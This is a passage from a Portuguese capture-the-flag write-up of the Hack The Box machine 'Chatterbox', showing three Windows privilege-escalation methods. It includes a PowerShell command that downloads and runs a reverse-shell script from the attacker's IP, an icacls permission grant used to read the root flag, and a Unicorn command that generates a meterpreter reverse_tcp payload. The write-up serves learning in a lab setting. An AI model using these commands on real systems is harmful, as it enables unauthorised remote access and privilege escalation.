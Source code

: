 Com isso ele vai startar o processo powershell, executando ele como se fosse administrador

`Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')" -Credential $cred`

Confirmando

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_pup5.png)

Show, vamos pro próximo método

# Escalação de Privilégio (2º Modo Icacls)

Esse é mais simples de ser explorado, é relativo às permissões que temos na pasta do root

Podemos acessar ela mas não podemos ler o root.txt

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_i.png)

Se verificarmos nós temos permissão na pasta do root para ler ela, mas o arquivo não temos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_i1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_i2.png)

Hummm... temos acesso a pasta mas não temos permissão de ler o root.txt

Mas podemos dar essa permissão pro Alfred

`icacls root.txt /grant alfred:F`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_i3.png)

Show, agora lemos a flag

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_root.png)

# Escalação de Privilégio (3º Modo Unicorn)

Agora não será bem uma escalação de privilégio, e sim uma demonstração da utilização do Unicorn pra geração de payloads e utilização de plataforma de comando e controle

A ideia dele é a mesma do Merlin, ele é um C2. Qual é melhor? Sei lá, os dois cumprem a finalidade. Depois se eu tiver saco eu demonstro o merlin também

Após baixar pra nossa Kali (no caso eu usei uma release da versão 3.4.5, não sei por que outras versões não funcionaram corretamente). Executamos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u1.png)

> python unicorn.py windows/meterpreter/reverse_tcp 10.10.16.117 443
